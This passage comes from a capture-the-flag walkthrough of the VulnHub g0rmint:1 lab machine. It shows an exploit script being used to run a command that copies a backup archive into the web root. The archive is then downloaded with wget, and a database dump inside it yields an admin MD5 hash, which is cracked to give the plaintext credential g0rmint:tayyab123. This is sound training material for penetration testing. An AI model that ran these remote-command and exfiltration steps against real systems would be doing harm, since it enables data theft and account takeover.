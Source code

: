 ## Backup Archive (2)

There's another `backup.zip` at `/var/www`.

```
/var/www:
total 3672
drwxr-xr-x  3 root     root        4096 Nov  3 02:51 .
drwxr-xr-x 12 root     root        4096 Nov  2 03:42 ..
-rw-r--r--  1 root     root     3747496 Nov  3 02:43 backup.zip
drwxr-xr-x  3 www-data www-data    4096 Nov  3 04:08 html
```

I help myself to the file by copying it to the web root.

```
# ./exploit.sh w3bdrill3r@gmail.com 30e1a63a8968b727f276 "cp /var/www/backup.zip /var/www/html"
```

Next, I download the file using `wget`.

```
# wget http://192.168.198.130/backup.zip
--2018-02-02 14:46:19-- http://192.168.198.130/backup.zip
Connecting to 192.168.198.130:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3747496 (3.6M) [application/zip]
Saving to: ‘backup.zip’

backup.zip 100%[==================================>] 3.57M --.-KB/s in 0.1s

2018-02-02 14:46:19 (27.6 MB/s) - ‘backup.zip’ saved [3747496/3747496]
```

It appears to be like the previous `backup.zip` with a twist. This time round, `db.sql` shows the original admin password hash.

![db.sql](/assets/images/posts/g0rmint-1-walkthrough/g0rmint-17.png)

The password hash was already cracked by an online MD5 [cracker][4]. The password is `tayyab123`.

## SSH Login

Let's try the credential (`g0rmint:tayyab123`) and see if we can get a low-privilege shell.

![g0rmint](/assets/images/posts/g0rmint-1-walkthrough/g0rmint-18.png)


[1]: https://www.vulnhub.com/entry/g0rmint-1,214/
[2]: https://twitter.com/@nomanriffat
[3]: https://www.vulnhub.com/
[4]: http://md5decrypt.net/